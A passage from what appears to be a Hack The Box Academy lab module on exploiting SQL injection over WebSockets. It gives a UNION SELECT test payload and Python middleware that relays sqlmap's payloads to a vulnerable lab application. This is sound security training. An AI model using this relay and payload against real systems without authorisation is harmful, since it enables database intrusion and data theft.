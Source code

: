 To run the Python web application locally, we must install the three dependencies using `pip`: `Flask`, `flask-sock`, and `mysql-connector-python`.

The web application attempts to connect to a MySQL instance on localhost; instead of installing a MySQL server on our local machine, we can make use of a [MySQL Docker](https://hub.docker.com/_/mysql) container with the following parameters:

```shell
docker run -p 3306:3306 -e MYSQL_USER='db' -e MYSQL_PASSWORD='db-password' -e MYSQL_DATABASE='db' -e MYSQL_ROOT_PASSWORD='db' mysql

```

This creates a new MySQL server for us with the credentials given in the source code. However, the database is empty. Since we only want to confirm the SQLi vulnerability, this is fine for our use case. However, in other scenarios, seeding the database with sample/dummy data allows us to test the local instance more thoroughly.

After changing the port to a non-privileged one, we can start the web application and access it locally. To confirm the SQLi vulnerability, we will use `" UNION SELECT "1` as the username:

![](https://academy.hackthebox.com/storage/modules/231/websockets/websocket_sqli_3.png)

* * *

## Exploitation

[sqlmap](https://sqlmap.org/) is the tool of the trade for exploiting SQLi vulnerabilities; however, sometimes, it has trouble handling WebSocket connections. Therefore, we will write a middleware on our local machine that receives the SQLi payload from sqlmap in an HTTP request parameter, opens a WebSocket connection to the vulnerable web application, and forwards the payload via it. This allows us to use sqlmap for WebSocket connections. While sqlmap can handle WebSocket connections independently, this approach allows us more control over the WebSocket handshake. It is thus applicable to a broader variety of web applications.

To develop the middleware, we must install two packages using `pip`: `Flask` and `websocket-client`. The middleware is a simple `Flask` web application consisting of a single endpoint that parses the `username` GET parameter and forwards the data in the correct JSON format to the vulnerable web application through a WebSocket connection:

```python
from flask import Flask, request
from websocket import create_connection
import json

app = Flask(__name__)

WS_URL = 'ws://172.17.0.2/dbconnector'

@app.route('/')
def index():
    req = {}
    req['username'] = request.args.get('username', '')

    ws = create_connection(WS_URL)
    ws.send(json.dumps(req))
    r = json.loads(ws.recv())
    ws.close()

    if r.get('error'):
        return r['error']

    return r['messages']

app.run(host='127.0.0.1', port=8000)

```
